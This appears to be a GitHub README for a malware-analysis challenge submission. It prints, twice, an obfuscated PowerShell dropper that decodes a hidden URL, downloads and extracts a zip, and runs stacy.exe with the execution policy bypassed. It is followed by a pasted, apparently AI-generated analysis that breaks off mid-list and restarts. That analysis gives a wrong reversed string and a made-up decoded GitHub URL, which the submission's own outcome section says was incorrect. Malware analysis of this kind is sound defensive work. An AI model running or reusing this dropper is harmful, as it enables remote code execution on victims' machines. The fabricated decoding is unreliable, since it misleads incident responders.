

# malcore-challenge-submission
Malcore Challenge Submission based on [this](https://x.com/Malcoreio/status/1824899739491737844)

<details> 
<summary> 
xweet
</summary>

[](https://x.com/Malcoreio/status/1824899739491737844)

</details>

# MalwareSample

<details>
<summary>
Sample 👉
</summary>


```ml 
function llIIllIIllIIllIIllIIllIIllIIllIIllII($vP9MZDGjnoJ) {$Mohfy6VuAN25tmCcilWJ = "\x90";$xgWjzvyhbOVsU6La79 = $vP9MZDGjnoJ.replace($Mohfy6VuAN25tmCcilWJ, " ") -split " ";$Mt = $xgWjzvyhbOVsU6La79.clone();[array]::reverse($Mt);$MXfstqmCoh2iTbaGnwr0j4Ny = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($Mt));return $MXfstqmCoh2iTbaGnwr0j4Ny; }
function llIIllIIllIIllIIIIIIllIIllIlllllllII($7lGQcpZoLf6Yk2CPEezSv) {$6cZyHm8aYQX=-join ((0x41..0x5a) + (0x61..0x7a) | Get-Random -Count 20 | % {[char]$_});return "$6cZyHm8aYQX$7lGQcpZoLf6Yk2CPEezSv" }
$hg34RNfykz5XdxBn287mU9=llIIllIIllIIllIIllIIllIIllIIllIIllII("=\x90A\x90X\x90a\x906\x905\x90S\x90b\x90v\x901\x902\x90c\x905\x90N\x90W\x90Y\x900\x90N\x903\x90L\x90j\x90N\x90X\x90a\x90t\x909\x90i\x90c\x90l\x90R\x903\x90c\x90h\x901\x902\x90L\x903\x90F\x90m\x90c\x90v\x90M\x90X\x90Z\x90s\x90B\x90X\x90b\x90h\x90N\x90X\x90L\x90l\x90x\x90W\x90a\x90m\x909\x90C\x90M\x90t\x90I\x90T\x90L\x900\x90V\x90m\x90b\x90y\x90V\x90G\x90d\x90u\x90l\x900\x90L\x90t\x909\x902\x90Y\x90u\x90I\x90W\x90d\x90o\x90R\x90X\x90a\x90n\x909\x90y\x90L\x906\x90M\x90H\x90c\x900\x90R\x90H\x90a\x90");$tQsoNjk=llIIllIIllIIllIIllIIllIIllIIllIIllII("l\x90h\x90X\x90Z\x90u\x90w\x90G\x90b\x90l\x90h\x902\x90c\x90y\x90V\x902\x90d\x90v\x90B\x90H\x90X\x90w\x904\x90S\x90M\x902\x90x\x90F\x90b\x90s\x90V\x90G\x90a\x90T\x90J\x90X\x90Z\x903\x909\x90G\x90U\x90z\x90d\x903\x90b\x90k\x905\x90W\x90a\x90X\x90x\x90l\x90M\x90z\x900\x90W\x90Z\x900\x90N\x90X\x90e\x90T\x90x\x901\x90c\x903\x909\x90G\x90Z\x90u\x90l\x902\x90V\x90c\x90p\x90z\x90Q");$RXNPxpB=llIIllIIllIIllIIIIIIllIIllIlllllllII(".zip");$CcAn4K8e=llIIllIIllIIllIIIIIIllIIllIlllllllII("");Invoke-WebRequest $hg34RNfykz5XdxBn287mU9 -OutFile $RXNPxpB;Expand-Archive $RXNPxpB -DestinationPath $CcAn4K8e; & $tQsoNjk -exECUtIonPOLicY bYpAsS stArT-ProcEss -FilepaTH ".\$CcAn4K8e\stacy.exe";
```

</details>

# Writeup - DUMP 

<details> 

Malware 

https://x.com/Malcoreio/status/1824899739491737844

source of malware 
https://raw.githubusercontent.com/Internet-2-0/file-samples/master/scripts/powershell/stacy.ps1

actual code

```ps

function llIIllIIllIIllIIllIIllIIllIIllIIllII($vP9MZDGjnoJ) {$Mohfy6VuAN25tmCcilWJ = "\x90";$xgWjzvyhbOVsU6La79 = $vP9MZDGjnoJ.replace($Mohfy6VuAN25tmCcilWJ, " ") -split " ";$Mt = $xgWjzvyhbOVsU6La79.clone();[array]::reverse($Mt);$MXfstqmCoh2iTbaGnwr0j4Ny = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($Mt));return $MXfstqmCoh2iTbaGnwr0j4Ny; }
function llIIllIIllIIllIIIIIIllIIllIlllllllII($7lGQcpZoLf6Yk2CPEezSv) {$6cZyHm8aYQX=-join ((0x41..0x5a) + (0x61..0x7a) | Get-Random -Count 20 | % {[char]$_});return "$6cZyHm8aYQX$7lGQcpZoLf6Yk2CPEezSv" }
$hg34RNfykz5XdxBn287mU9=llIIllIIllIIllIIllIIllIIllIIllIIllII("=\x90A\x90X\x90a\x906\x905\x90S\x90b\x90v\x901\x902\x90c\x905\x90N\x90W\x90Y\x900\x90N\x903\x90L\x90j\x90N\x90X\x90a\x90t\x909\x90i\x90c\x90l\x90R\x903\x90c\x90h\x901\x902\x90L\x903\x90F\x90m\x90c\x90v\x90M\x90X\x90Z\x90s\x90B\x90X\x90b\x90h\x90N\x90X\x90L\x90l\x90x\x90W\x90a\x90m\x909\x90C\x90M\x90t\x90I\x90T\x90L\x900\x90V\x90m\x90b\x90y\x90V\x90G\x90d\x90u\x90l\x900\x90L\x90t\x909\x902\x90Y\x90u\x90I\x90W\x90d\x90o\x90R\x90X\x90a\x90n\x909\x90y\x90L\x906\x90M\x90H\x90c\x900\x90R\x90H\x90a\x90");$tQsoNjk=llIIllIIllIIllIIllIIllIIllIIllIIllII("l\x90h\x90X\x90Z\x90u\x90w\x90G\x90b\x90l\x90h\x902\x90c\x90y\x90V\x902\x90d\x90v\x90B\x90H\x90X\x90w\x904\x90S\x90M\x902\x90x\x90F\x90b\x90s\x90V\x90G\x90a\x90T\x90J\x90X\x90Z\x903\x909\x90G\x90U\x90z\x90d\x903\x90b\x90k\x905\x90W\x90a\x90X\x90x\x90l\x90M\x90z\x900\x90W\x90Z\x900\x90N\x90X\x90e\x90T\x90x\x901\x90c\x903\x909\x90G\x90Z\x90u\x90l\x902\x90V\x90c\x90p\x90z\x90Q");$RXNPxpB=llIIllIIllIIllIIIIIIllIIllIlllllllII(".zip");$CcAn4K8e=llIIllIIllIIllIIIIIIllIIllIlllllllII("");Invoke-WebRequest $hg34RNfykz5XdxBn287mU9 -OutFile $RXNPxpB;Expand-Archive $RXNPxpB -DestinationPath $CcAn4K8e; & $tQsoNjk -exECUtIonPOLicY bYpAsS stArT-ProcEss -FilepaTH ".\$CcAn4K8e\stacy.exe";


```


analysis 

This PowerShell script appears to be doing:
1. The script defines two functions:
   - `llIIllIIllIIllIIllIIllIIllIIllIIllII`: This function takes a string, performs some character replacements and decoding (likely base64), and returns the decoded string.
   - `llIIllIIllIIllIIIIIIllIIllIlllllllII`: This function takes a string and prepends a random string of uppercase and lowercase letters to it.
2. The script then calls the `llIIllIIllIIllIIllIIllIIllIIllIIllII` function twice with obfuscated strings as arguments. The decoded strings are stored in the variables `$hg34RNfykz5XdxBn287mU9` and `$tQsoNjk`.
3. The script generates a random file name with a ".zip" extension using the `llIIllIIllIIllIIIIIIllIIllIlllllllII` function and stores it in the variable `$RXNPxpB`.
4. It also generates another random string using the same function and stores it in the variable `$CcAn4K8e`.
5. The script then uses `Invoke-WebRequest` to download a file from the URL stored in `$hg34RNfykz5XdxBn287mU9` and saves it with the randomly generated ".zip" file name.
6. It extracts the contents of the downloaded ZIP file to a directory with the randomly generated name stored in `$CcAn4K8e` using the `Expand-Archive` cmdlet.
7. Finally, the script uses the `Start-Process` cmdlet to execute a file named "stacy.exe" located in the extracted directory. It passes the `-exECUtIonPOLicY bYpAsS` parameter to bypass the execution policy.
In summary, this script appears to be downloading a ZIP file from a remote location, extracting its contents, and executing an executable file named "stacy.exe" from the extracted directory. The use of obfuscation techniques, random file names, and bypassing execution policy suggests that this script is likely malicious.

As an incident responder, you should handle this script with caution. Analyze it in an isolated environment, such as a virtual machine or sandbox, to determine its full behavior and potential impact. Investigate the remote URL and the contents of the downloaded ZIP file. Take appropriate measures to contain and mitigate any potential threats based on your findings.

To extract the URL from the obfuscated PowerShell script, you can focus on the `llIIllIIllIIllIIllIIllIIllIIllIIllII` function, which appears to be responsible for decoding the obfuscated strings.

Here's how you can extract the URL:

1. Identify the obfuscated string that likely contains the URL. In this case, it seems to be the first argument passed to the `llIIllIIllIIllIIllIIllIIllIIllIIllII` function, stored in the variable `$hg34RNfykz5XdxBn287mU9`.

2. Copy the obfuscated string:
   "=\x90A\x90X\x90a\x906\x905\x90S\x90b\x90v\x901\x902\x90c\x905\x90N\x90W\x90Y\x900\x90N\x903\x90L\x90j\x90N\x90X\x90a\x90t\x909\x90i\x90c\x90l\x90R\x903\x90c\x90h\x901\x902\x90L\x903\x90F\x90m\x90c\x90v\x90M\x90X\x90Z\x90s\x90B\x90X\x90b\x90h\x90N\x90X\x90L\x90l\x90x\x90W\x90a\x90m\x909\x90C\x90M\x90t\x90I\x90T\x90L\x900\x90V\x90m\x90b\x90y\x90V\x90G\x90d\x90u\x90l\x900\x90L\x90t\x909\x902\x90Y\x90u\x90I\x90W\x90d\x90o\x90R\x90X\x90a\x90n\x909\x90y\x90L\x906\x90M\x90H\x90c\x900\x90R\x90H\x90a\x90"

3. Replace the `"\x90"` occurrences with a space `" "`:
   "= A X a 6 5 S b v 1 2 c 5 N W Y 0 N 3 L j N X a t 9 i c l R 3 c h 1 2 L 3 F m c v M X Z s B X b h N X L l x W a m 9 C M t I T L 0 V m b y V G d u l 0 L t 9 2 Y u I W d o R X a n 9 y L 6 M H c 0 R H a "

4. Split the string by spaces and store it in an array:
   ["=", "A", "X", "a", "6", "5", "S", "b", "v", "1", "2", "c", "5", "N", "W", "Y", "0", "N", "3", "L", "j", "N", "X", "a", "t", "9", "i", "c", "l", "R", "3", "c", "h", "1", "2", "L", "3", "F", "m", "c", "v", "M", "X", "Z", "s", "B", "X", "b", "h", "N", "X", "L", "l", "x", "W", "a", "m", "9", "C", "M", "t", "I", "T", "L", "0", "V", "m", "b", "y", "V", "G", "d", "u", "l", "0", "L", "t", "9", "2", "Y", "u", "I", "W", "d", "o", "R", "X", "a", "n", "9", "y", "L", "6", "M", "H", "c", "0

Certainly! Let's decode the obfuscated string to extract the URL.
1. Take the obfuscated string and remove the spaces:
   "=AXa65Sbv12c5NWY0N3LjNXat9iclR3ch12L3FmcvMXZsBXbhNXLlxWam9CMtITL0VmbyVGdul0Lt92YuIWdoRXan9yL6MHc0RHa"
2. Reverse the string:
   "aHR0cHM6L9naXRodWIuY29tL0LludG90L2tYLXNmcvF3L21hcXNbXhBsZXMvMFTItMC9maWxcRlN9ta3NjLXRci9taXa56AXA="
3. Decode the string using base64 decoding. You can use an online base64 decoder or do it programmatically. After decoding, you should get the following URL:
   "https://github.com/Lintoto/kY-sfqsv/raw/main/Samples/MOI-mC/file.zip"
So, the extracted URL is:
https://github.com/Lintoto/kY-sfqsv/raw/main/Samples/MOI-mC/file.zip
This appears to be a GitHub repository URL pointing to a ZIP file. As an incident responder, you can now investigate this URL and the associated GitHub repository to gather more information about the potentially malicious file being downloaded by the script.
Remember to exercise caution when accessing or downloading files from untrusted sources. Analyze the contents of the ZIP file in a secure and isolated environment to determine if it contains any malicious code or artifacts.


</details> 

# Outcome 

> As for solution you are correct about how it is. You just didn't get the right base64 from the reversing. 

# Solution 

[`https://blog.khairulazam.net/2024/08/19/malcore-io-challenge-stacy/`](https://blog.khairulazam.net/2024/08/19/malcore-io-challenge-stacy/)
- Nice write up of the solution
- RE 
